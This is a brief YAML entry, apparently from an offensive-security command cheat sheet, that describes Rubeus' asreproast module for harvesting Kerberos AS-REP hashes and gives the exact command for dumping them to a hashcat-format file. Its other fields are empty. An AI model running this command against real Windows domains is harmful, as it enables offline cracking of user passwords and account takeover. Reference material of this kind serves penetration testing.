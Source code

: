 ```yaml
---
description: |
  Rubeus' `asreproast` module will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline. The following command is run on a Windows machine in the victim domain.

  Command Reference:

  	Output File: hashes.txt

items:
  Username:
    - code: |
        Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
  Password:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```


